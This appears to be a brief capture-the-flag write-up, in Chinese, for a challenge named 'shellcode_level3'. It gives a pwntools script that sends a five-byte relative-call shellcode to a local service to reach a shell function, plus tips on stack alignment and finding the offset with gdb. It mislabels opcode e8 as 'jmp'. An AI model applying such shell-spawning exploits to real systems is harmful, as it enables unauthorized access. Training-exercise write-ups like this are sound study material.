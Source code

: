 # shellcode_level3

```py
from pwn import *
p=remote("localhost",65407)
shellcode=b'\xe8\x4d\xd1\xff\xff'
p.sendlineafter("wo?",shellcode)
p.interactive()
```

计算jmp的地址时注意直接跳到givemeshell会因为栈没对齐而执行失败，往下多滑几个地址即可。不知道e8（jmp）后面的地址怎么算的，建议gdb随便输入个数后自行计算（我知道大家来看wp不是来看这个的，但是我真的查了好久都不知道该怎么算，最后还是上gdb一下就出来了）